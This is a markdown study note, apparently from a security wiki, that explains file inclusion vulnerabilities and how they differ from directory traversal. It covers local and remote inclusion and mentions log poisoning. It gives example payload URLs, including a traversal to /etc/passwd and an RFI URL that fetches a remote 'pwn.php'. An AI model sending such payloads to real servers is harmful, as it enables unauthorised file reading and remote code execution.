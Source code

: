 # File Inclusion vs Directory Traversal

File inclusion vulnerabilities arise when file paths are passed to `include` statements without sanitisation.

It is important to distinguish between file inclusion and [[Directory Traversal]] vulnerabilities, as these often get mixed up. A path traversal grants an adversary *direct* access to arbitrary files - the file is simply treated as if it were in the web root directory, even though it might be outside it.

In contrast, file inclusion allows for the "inclusion" of files in the application's running code. This can manifest in different ways. If the file included is a `.php` script, then a simple file inclusion will *execute* the PHP code inside it. If the file is not a PHP file, then its contents will be included somewhere on the page.

## Local File Inclusion (LFI)

A *local file inclusion (LFI)* vulnerability allows for the inclusion of local files, i.e. files which are located on the server itself. Such vulnerabilities can often lead to remote code execution if an adversary can upload to the server a file of their choosing. Another common venue of exploitation is log poisoning, whereby the adversary performs some actions in order to generate certain content in log files and then uses the LFI to execute the log file itself.

The most common place where LFIs occur is in URL file parameters. Consider the following example URL:

```
http://example.com/preview.php?file=index.html
```

If this is vulnerable to LFI, then an adversary can change the `file` parameter in order to include in the web page any file they like. For example, visiting

```
http://example.com/preview.php?file=../../../../../../../etc/passwd`
```

will result in the contents of `/etc/passwd` being displayed somewhere on the `preview.php` web page. 

>[!EXAMPLE]- Example: Directory Traversal vs LFI
>
>If this were a path traversal instead (for example `http://example.com/../../../etc/passwd`), then the above would result in the direct *download* of the file `/etc/passwd` instead of its contents being included somewhere on the resulting web page.
>

## Remote File Inclusion (RFI)

A *remote file inclusion (RFI)* vulnerability allows us to include a file located on a remote host which is accessible via HTTP or SMB. They can be discovered by the same techniques used to find LFIs and path traversals, but instead of using a filename directly, one inserts an entire URL:

```
http://example.com/preview.php?file=http://192.168.0.23/pwn.php
```
